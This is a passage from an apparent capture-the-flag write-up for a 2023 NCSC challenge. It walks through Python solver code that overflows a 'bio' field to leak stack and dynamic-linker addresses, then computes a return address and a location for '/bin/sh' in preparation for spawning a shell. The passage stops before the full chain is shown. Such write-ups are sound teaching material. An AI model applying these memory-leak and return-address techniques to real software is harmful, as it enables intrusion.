 And yep, it seems we do have some good values! 

<p align="center">
    <img src="/2023/NCSC/img/13.png"><br/>
</p>

We got ourselves an address from the linker, from the binary & a few stack addresses. We start off with the stack leak, considering that the stack can change, we need to find a leak with a const offset to our stack frame, or we can use the main's stack frame too. I went for the offset to our structure variable which is located in the main's stackframe. A good leak is `0x00007fff2aead1ff` which is at offset 63 in `bio`.

I defined a few helper functions in the solver to represent the menu options & I'll be using them. To get our stack leak, we can use the following:

```python
payload = 'A'*56 + 'B'*6 # total of 62
    
setBio(payload) # Will send a \n at the end, gives total 63.
leak = showInfo().split(b'\n')

stack_leak  = u64(leak[-1].ljust(8, b'\0'))
struct_adr  = stack_leak - 0x9f
date_adr    = struct_adr + 9
bin_sh      = date_adr + 40
ret_adr     = stack_leak - 0xb7
```

With that, we get a return address, the address of our structure & we can calculate the address of each attribute. The `bin_sh` will be used later on, we'll simply store "/bin/sh" in our structure to use it.

Now, we move on to the next. Also, we must be careful here, we must always start with the smallest offset to leak since we'll be overwriting data. We go for the linker's leak (0x00007f27318a1da7) located at offset 71:

```python
# LD Leak
payload = 'A'*64 + 'B'*6
setBio(payload)
leak = showInfo().split(b'\n')

ld_leak = u64(leak[-1].ljust(8, b'\0'))
ld_base = ld_leak - 0x19da7
```
